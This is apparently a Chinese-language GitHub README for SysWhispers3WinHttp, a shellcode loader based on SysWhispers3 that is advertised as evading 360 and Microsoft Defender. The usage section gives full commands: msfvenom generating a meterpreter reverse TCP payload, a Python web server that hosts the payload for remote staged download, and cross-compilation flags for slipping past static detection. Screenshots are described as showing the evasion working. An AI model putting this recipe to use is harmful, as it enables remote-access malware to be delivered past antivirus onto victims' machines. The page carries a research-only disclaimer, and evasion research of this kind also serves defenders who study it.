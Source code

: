 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender等杀软。

## 0x00 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志：
2023/06/06 支持64位GCC编译，增添编译参数绕过静态检测。

## 0x02 使用：

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// 4. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h与第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

## 0x03 演示：

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/b4534cba-2b86-47d7-bcf3-553739e2012b)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a134f8bd-922d-4132-af9d-c8eee6b07fc1)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
